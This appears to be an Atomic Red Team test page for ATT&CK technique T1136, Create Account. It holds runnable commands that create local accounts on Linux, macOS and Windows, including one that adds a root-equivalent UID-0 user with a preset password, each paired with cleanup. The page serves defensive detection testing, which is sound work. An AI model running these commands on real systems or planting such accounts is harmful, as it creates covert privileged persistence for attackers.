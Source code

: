 # T1136 - Create Account
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1136)
<blockquote>Adversaries with a sufficient level of access may create a local system, domain, or cloud tenant account. Such accounts may be used for persistence that do not require persistent remote access tools to be deployed on the system.

In cloud environments, adversaries may create accounts that only have access to specific services, which can reduce the chance of detection.

### Windows

The <code>net user</code> commands can be used to create a local or domain account.

### Office 365

An adversary with access to a Global Admin account can create another account and assign it the Global Admin role for persistent access to the Office 365 tenant.(Citation: Microsoft O365 Admin Roles)(Citation: Microsoft Support O365 Add Another Admin, October 2019)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Create a user account on a Linux system](#atomic-test-1---create-a-user-account-on-a-linux-system)

- [Atomic Test #2 - Create a user account on a MacOS system](#atomic-test-2---create-a-user-account-on-a-macos-system)

- [Atomic Test #3 - Create a new user in a command prompt](#atomic-test-3---create-a-new-user-in-a-command-prompt)

- [Atomic Test #4 - Create a new user in PowerShell](#atomic-test-4---create-a-new-user-in-powershell)

- [Atomic Test #5 - Create a new user in Linux with `root` UID and GID.](#atomic-test-5---create-a-new-user-in-linux-with-root-uid-and-gid)


<br/>

## Atomic Test #1 - Create a user account on a Linux system
Create a user via useradd

**Supported Platforms:** Linux




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | evil_user|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
useradd -M -N -r -s /bin/bash -c evil_account #{username}
```

#### Cleanup Commands:
```bash
userdel #{username}
```





<br/>
<br/>

## Atomic Test #2 - Create a user account on a MacOS system
Creates a user on a MacOS system with dscl

**Supported Platforms:** macOS




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | evil_user|
| realname | 'realname' to record when creating the user | String | Evil Account|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
dscl . -create /Users/#{username}
dscl . -create /Users/#{username} UserShell /bin/bash
dscl . -create /Users/#{username} RealName "#{realname}"
dscl . -create /Users/#{username} UniqueID "1010"
dscl . -create /Users/#{username} PrimaryGroupID 80
dscl . -create /Users/#{username} NFSHomeDirectory /Users/#{username}
```

#### Cleanup Commands:
```bash
dscl . -delete /Users/#{username}
```





<br/>
<br/>

## Atomic Test #3 - Create a new user in a command prompt
Creates a new user in a command prompt. Upon execution, "The command completed successfully." will be displayed. To verify the
new account, run "net user" in powershell or CMD and observe that there is a new user named "T1136_CMD"

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | T1136_CMD|
| password | Password of the user to create | String | T1136_CMD!|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net user /add "#{username}" "#{password}"
```

#### Cleanup Commands:
```cmd
net user /del "#{username}" >nul 2>&1
```





<br/>
<br/>

## Atomic Test #4 - Create a new user in PowerShell
Creates a new user in PowerShell. Upon execution, details about the new account will be displayed in the powershell session. To verify the
new account, run "net user" in powershell or CMD and observe that there is a new user named "T1136_PowerShell"

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | T1136_PowerShell|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-LocalUser -Name "#{username}" -NoPassword
```

#### Cleanup Commands:
```powershell
Remove-LocalUser -Name "#{username}" -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #5 - Create a new user in Linux with `root` UID and GID.
Creates a new user in Linux and adds the user to the `root` group. This technique was used by adversaries during the Butter attack campaign.

**Supported Platforms:** Linux




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | butter|
| password | Password of the user to create | String | BetterWithButter|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
useradd -o -u 0 -g 0 -M -d /root -s /bin/bash #{username}
echo "#{password}" | passwd --stdin #{username}
```

#### Cleanup Commands:
```bash
userdel #{username}
```





<br/>
